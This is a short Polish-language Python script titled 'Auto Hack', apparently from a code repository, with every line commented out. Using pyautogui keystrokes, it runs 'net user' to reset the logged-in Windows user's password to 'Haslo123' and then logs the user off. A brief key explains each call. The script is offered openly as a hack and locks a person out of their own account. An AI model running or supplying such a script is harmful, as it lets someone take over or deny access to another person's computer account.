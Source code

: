 
## --Auto Hack-- ##



# -------------------------------------------------------------------------- #
## Potrzbne biblioteki ##

# import pyautogui
# import time
# import getpass


## Zmienia hasło dla aktualnie zalogowanego użytkownika na dowolne hasło ##

# aktualny_uzytkownik = getpass.getuser()

# Wpisanie komendy net user z aktualnym użytkownikiem
# pyautogui.typewrite(f'net user {aktualny_uzytkownik}')
# pyautogui.press('enter')
# pyautogui.typewrite(f'net user {aktualny_uzytkownik} *')
# pyautogui.press('enter')
# time.sleep(0.5)
# pyautogui.typewrite('Haslo123')
# pyautogui.press('enter')
# pyautogui.typewrite('Haslo123')
# pyautogui.press('enter')
# pyautogui.typewrite('shutdown /l')

## Opis Kodu ##

# pyautogui.typewrite(f'') - wpisywanie komend

# pyautogui.press('enter') - naciśnięcie enter

# pyautogui.press('') - naciśnięcie innego klawisza

# time.sleep(0.5) - czekanie

# aktualny_uzytkownik = getpass.getuser() - Pobiera nazwę aktualnego użytkownika systemu

# pyautogui.hotkey('win', 'r') - Wykonywanie skrótów klawiszowych

## Link do strony ze wszystkimi komendami ##
# https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands

# -------------------------------------------------------------------------- #